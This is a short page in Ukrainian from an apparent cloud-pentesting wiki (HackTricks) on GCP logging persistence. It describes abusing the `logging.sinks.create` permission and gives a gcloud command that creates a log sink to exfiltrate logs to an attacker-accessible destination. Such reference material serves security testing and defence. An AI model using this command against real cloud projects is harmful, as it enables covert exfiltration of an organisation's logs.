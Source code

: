 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Знайдіть більше інформації про Logging у:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Створіть злив, щоб ексфільтрувати журнали до доступного для зловмисника місця:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
